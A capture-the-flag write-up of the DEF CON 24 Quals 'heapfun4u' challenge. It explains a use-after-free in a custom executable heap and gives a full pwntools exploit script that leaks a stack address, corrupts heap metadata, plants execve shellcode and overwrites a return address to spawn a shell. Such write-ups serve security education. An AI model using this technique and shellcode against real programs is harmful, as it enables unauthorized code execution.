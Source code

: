 ```yaml
---
title:      DEF CON 24 Quals (2016) - Heapfun4u 
author:     giosch + frydrichas + marcof
pubDate:       May 31 2016 12:00:00
description:    custom heap, use-after-free, return-to-shellcode 
categories: DefconQuals2016
heroImage: /writeup_images/defcon24.png
tags:
 - Defcon Quals
 - Exploitable
 - heap
 - shellcode
 - use-after-free
 - 2016
---
```


This challenge is a memory manager that implements a custom "heap", allocated using mmap, with the permissions bitmap set to `rwx`.




We have a main menu in which we can perform the following operations:

* `[A]llocate Buffer`: "malloc" of an arbitrary size.
* `[F]ree Buffer`: "free" the chunk we select. Also list all the chunks and the respective addresses.
* `[W]rite Buffer`: let us write in the data part of the specified chunk.
* `[N]ice guy`:  print an address of a variable of the stack.
* `[E]xit`: quit the program.

All chunks' pointers are saved in a global array (so there is a limit to their number, but the check on that is well made), but when you free a chunk, the pointer is not deleted from the array, so we can still write on it.

Inspecting the memory with qira, we saw that when we free a chunk with another allocate chunk after that, a pointer is saved at the end of the freed area. That address point to what we think is the "top chunk size", so where the next "malloc" will allocate the next chunk.

We tried to edit it writing on a freed chunk, and we managed to change the allocation point of the next chunk inside another chunk previously declared (inside that chunk data we put a "valid" top chunk size).

So we have something like an arbitrary write, an executable "heap" and a stack address (and no canary to worry about). Out first thought is to overwrite the saved return address of the main on the stack, forcing the program to jump on a shellcode on the executable heap.

At first we tried just writing stuff on the stack, but it didn't work. Then marcof noticed that maybe not only the top chunk size pointer that we can overwrite need to point to a valid top chunk size, but after the malloc, the nex top chunk size should maybe be on a previous memory area with all zeroes.
With qira we found the addresses on the stack of a valid top chunk size and a length for the malloc that allowed us to make the chunk stop on an area with zeroes.That suddenly worked, so we proceded to write the exploit in python using the pwntools.




```python 
#!/usr/bin/python

from pwn import *

r = remote("heapfun4u_873c6d81dd688c9057d5b229cf80579e.quals.shallweplayaga.me",3957)

#r  = remote("localhost",4000)

def allocate(size):
    r.sendline("A")
    r.recvuntil("Size: ")
    r.sendline(str(size))
    r.recvuntil("| ")



def free(index):
    r.sendline("F")
    r.recvuntil("Index: ")
    r.sendline(str(index))
    r.recvuntil("| ")

def write(index, what):
    r.sendline("W")
    r.recvuntil("Write where: ")
    r.sendline(str(index))
    r.recvuntil("Write what: ")
    r.sendline(what)
    r.recvuntil("| ")

def nice():
    r.sendline("N")
    r.recvuntil("Here you go: ")
    leak = r.recvuntil("[A]")
    leak = leak[:-4]
    r.recvuntil("| ")
    return int(leak,16)

def esci():
        r.sendline("E")

def setAddress(addr):
    write(1,p64(addr))

def allocate_(size,payload):
    r.sendline("A"+payload)
    r.recvuntil("Size: ")
    r.sendline(str(size))
    r.recvuntil("| ")

   

allocate(16)
allocate(100)
allocate(100)
free(1)
stack = nice()
print "Stack leak -> " + hex(nice())
payload = p64(nice())+"\x00"*7
write(1,payload)
shellcode = "\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05"
write(3,shellcode)

context.log_level = 'DEBUG'
setAddress(nice()+28)
allocate_(384,"A"*7+p64(0x190)) #sarebbe 180 ma abbondo

r.sendline("W")
r.recvuntil("3) ");
heap_addr = r.recvuntil("4) ");
heap_addr = heap_addr[:-11];
print heap_addr
r.recvuntil("Write where: ")
r.sendline("4")
r.recvuntil("Write what: ")
r.sendline("A"*280+p64(int(heap_addr,16))+"C"*95)
r.recvuntil("| ")
esci()
r.interactive()

```

~ giosch
